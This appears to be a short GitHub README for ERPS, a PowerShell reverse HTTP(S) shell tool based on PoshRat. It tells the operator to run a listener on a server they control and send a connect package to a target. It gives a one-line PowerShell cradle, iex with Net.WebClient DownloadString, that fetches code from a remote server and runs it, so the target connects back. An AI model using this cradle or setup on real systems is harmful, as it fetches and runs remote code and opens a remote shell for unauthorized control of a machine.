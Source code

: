 # Endpoint Remote/Reverse PowerShell (ERPS)

## PowerShell Reverse HTTP(s) Shell

1. Invoke _ERPS_console.ps1_ on a server you control. (Note: Requires Admin rights to listen on ports.)

2. Use the Elevate console to send the ERPS Connect script package to the target. The script package will execute the code below and connect back to the analyst machine. 
```PowerShell
   iex (New-Object Net.WebClient).DownloadString("http://server/connect")
```

Based on PoshRat By Casey Smith @subTee, updated by/forked from [ru-faraon](https://github.com/ru-faraon)
